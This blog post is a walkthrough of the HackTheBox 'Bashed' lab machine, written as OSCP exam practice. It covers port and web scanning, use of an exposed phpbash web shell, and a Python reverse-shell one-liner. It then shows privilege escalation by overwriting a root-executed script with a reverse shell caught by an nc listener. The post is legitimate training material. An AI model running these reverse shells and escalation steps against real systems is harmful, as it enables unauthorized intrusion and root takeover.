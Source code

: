 ```yaml
---
layout: post
title: HackTheBox Bashed Writeup - OSCP Practice List 
categories: [security, hackthebox, oscp-writeups, thursday-snack]
tags: [security, hackthebox, oscp]
description: A comprehensive writeup on HackTheBox Bashed VM which helps learn and practice for OSCP.
comments: true
---
```



### Quick Overview

[Bashed](https://app.hackthebox.com/machines/118) Box is one of the Linux Box from [TJNull OSCP Practice list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#). It's one of those quite easy machine where you get initial foothold in one hop and privilege escalation in second hop.

![Bashed VM - HacktheBox Logo](/assets/media/htb-bashed-logo.jpg)

### Enumeration

#### NMapAutomator

Started with enumerating the target with [`NMapAutomator`](https://github.com/21y4d/nmapAutomator) script since it helps in automating all possible ports with vulnerability scripts from `nmap`. Additionally, `NmapAutomator` can help in recon process using `ffuf`, `nikto`, `DNSRecon`, `SMB` enumeration.

> `sudo nmapAutomator.sh -H $IP --type All`

```bash
NMap Scan Results
Running all scans on 10.129.210.13
Host is likely running Linux        
---------------------Starting Port Scan-----------------------                                                                
PORT   STATE SERVICE
80/tcp open  http
----------------------Starting UDP Scan------------------------                                                                                  
No UDP ports are open
```

#### Nikto Scan 

```
Nikto Scan
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.129.210.13
+ Target Hostname:    10.129.210.13
+ Target Port:        80
+ Start Time:         2023-02-12 20:19:51 (GMT-5)
---------------------------------------------------------------------------

+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ IP address found in the 'location' header. The IP is "127.0.1.1".
+ OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.1.1".
+ Server may leak inodes via ETags, header found with file /, inode: 1e3f, size: 55f8bbac32f80, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ /config.php: PHP Config file may contain database IDs and passwords.
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /dev/: Directory indexing found.
+ OSVDB-3092: /dev/: This might be interesting...
+ OSVDB-3268: /php/: Directory indexing found.
+ OSVDB-3092: /php/: This might be interesting...
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7916 requests: 0 error(s) and 17 item(s) reported on remote host
+ End Time:           2023-02-12 20:23:23 (GMT-5) (212 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

#### Suspect 1

NMap Scan reports returned very few information, but Nikto scanner has pretty good results with different sub-directories. After going through `/dev/` directory, You might come across `phpbash` php script. Taking a pause, [phpbash](https://github.com/Arrexel/phpbash) is one of the open-source software that implements interactive php shell. Now, It's time to pivot from `Enumeration` to aquire `Local Shell`.

![HacktheBox - Bashed VM - Enumeration](/assets/media/htb-bashed-enumeration-2.png)

![Hackthebox - Bashed VM - Local Shell](/assets/media/htb-bashed-local-shell.png)

### Local Shell

You may use [`revshell`](https://www.revshells.com/) for generating your reverse shell payload. Unlucky me, except python none of the reverse shell language payload was working.

```python
export RHOST="10.129.210.13";export RPORT=8085;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

![Hackthebox - Bashed VM - Local Shell](/assets/media/htb-bashed-local-shell-2.png)

### Privilege Escalation

Now that we've landed as local user `www-data` in the Bashed machine, now let's try lateral movement via privilege escalation. The first few things I used to execute on shell after landing are `whoami` and `sudo -l` verify basic information.

Upon executing `sudo -l`, looks like user `scriptmanager` can execute ALL commands without a password. It's pretty easy to switch user to scriptmanager,

`> sudo -u scriptmanager /bin/bash` 

#### LinEnum.sh

Now it's time for running LinEnum.sh script to identify weakness in the system that can be leveraged to escalate privileges. Upon executing, we come to know that `/scriptmanager` has couple of files named `test.py` and `test.txt`. The former is owned by `scriptmanager` and later by `root`.

```shell
scriptmanager@bashed:/scripts$ ls -l
ls -l
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 test.py
-rw-r--r-- 1 root          root          12 Feb 20 16:27 test.txt
scriptmanager@bashed:/scripts$ 
scriptmanager@bashed:/scripts$ cat test.py
cat test.py

f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ 
```

As you can see `test.py` is writing back to `test.txt` which is owned by `root`. Unless `test.py` is executed by `root` user, `test.txt` doesn't have the similar privilege based on my assumption. Now that `test.py` is owned by `scriptmanager`, you can potentially overwrite the content and make `root` to execute on its own context and try escalating privilege.

#### Plan for privilege escalation

1. Overwrite `test.py` with reverse shell payload.
2. Allow `root` to execute `test.py` - It does automatically, No Actions required.
3. Listen for reverse shell and capture root shell

![Privilege Escalation - Bashed VM - HackTheBox](/assets/media/htb-bashed-privilege-escalation-steps.png)

```shell
┌──(kali㉿kali)-[~/htb/bashed-1]
└─$ nc -lnvp 4242              
listening on [any] 4242 ...
connect to [10.10.14.83] from (UNKNOWN) [10.129.215.77] 33960
# dir
test.py  test.txt
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
root.txt
# cat root.txt
cat root.txt
{SOME_MAGIC_TEXT}
```

### Capture The Flag

So, there are couple of flags to be submitted as outcome from this HackTheBox VM `bashed`.

1. `/home/arrexel/user.txt`
2. `/root/root.txt`

Now, We've officially pwned the system and escalated our privileges as `root` 🎉.

![HackTheBox - Shivasurya.me](/assets/media/htb-sherlock.webp)

### Closing Note:

I hope this post is helpful for folks preparing for Offensive Security Certified Professional certification exam. For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
